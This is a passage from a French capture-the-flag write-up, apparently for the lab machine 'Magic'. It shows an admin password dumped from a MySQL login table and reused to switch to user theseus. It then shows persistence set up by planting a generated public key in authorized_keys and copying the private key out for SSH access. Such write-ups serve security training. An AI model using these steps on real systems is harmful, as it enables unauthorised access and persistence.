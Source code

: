 ```bash
2 rows in set (0.145 sec)

MySQL [(none)]> use Magic;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [Magic]> show tables;
+-----------------+
| Tables_in_Magic |
+-----------------+
| login           |
+-----------------+
1 row in set (0.136 sec)

MySQL [Magic]> select * from login;
+----+----------+----------------+
| id | username | password       |
+----+----------+----------------+
|  1 | admin    | Th3s3usW4sK1ng |
+----+----------+----------------+
1 row in set (0.106 sec)
```

### theseus user : su
On se connecte en tant que **theseus** avec le mot de passe trouvé précédemment. Cependant, ssh ne fonctionne qu'avec une paire de clé publique.
```bash
www-data@magic:/var/www/Magic$ su theseus
Password: <---- Th3s3usW4sK1ng
theseus@magic:/var/www/Magic$ cat /home/theseus/user.txt 
6553.....4c7a
```

### SSH : theseus
Pour obtenir un shell plus stable, j'ai généré une paire de clé **RSA** et j'ai ajouté la clé publique dans le fichier **authorized_keys**. Ensuite il suffit de copier le clé privé et de la mettre sur ma machine hôte, puis d'effectuer une connexion ssh :
```bash
theseus@magic:~$ ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/theseus/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/theseus/.ssh/id_rsa.
Your public key has been saved in /home/theseus/.ssh/id_rsa.pub.
...
theseus@magic:~$ cd .ssh
theseus@magic:~/.ssh$ cat id_rsa.pub > authorized_keys
theseus@magic:~/.ssh$ cat id_rsa
...
## [Ctrl-C, Ctrl-V] --> copie de la clé privée sur la machine hôte

-------------------------

$ vim theseus.key
...
$ chmod 600 theseus.key
$ ssh theseus@10.10.10.185 -i theseus.key
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 5.3.0-42-generic x86_64)
...
theseus@magic:~$ whoami
theseus
```